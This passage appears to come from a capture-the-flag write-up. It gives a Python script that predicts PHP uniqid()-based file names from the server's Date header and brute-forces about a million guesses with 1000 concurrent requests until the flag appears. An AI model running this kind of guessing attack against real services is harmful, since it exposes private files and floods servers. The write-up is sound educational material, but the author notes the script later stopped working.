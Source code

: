 ```py
print(r.text)

date = r.headers["Date"]
date = datetime.datetime.strptime(date, "%a, %d %b %Y %H:%M:%S %Z")
date = int(date.timestamp()) + 3600 * 2

guesses = ["%08x" % date + "%05x" % i for i in range(0, 0xFFFFF)]


def get_flag(guess):
    print(".")
    r = requests.get(base_url, params={"f": f"{guess}_{file_hash}_{filename}"})
    if "actf{" in r.text:
        print(r.text)
        exit(0)


with concurrent.futures.ThreadPoolExecutor(max_workers=1000) as executor:
    executor.map(get_flag, guesses)
```

P.S. when solving the challenge, this script worked at the first execution. Now it doesn't seem to find the flag. We may have got lucky with a very low `uniqid()` value for the microseconds. There may also be a smarter solution as well, but an online bruteforce of $~10^6$ looks feasible enough to me 🙃.
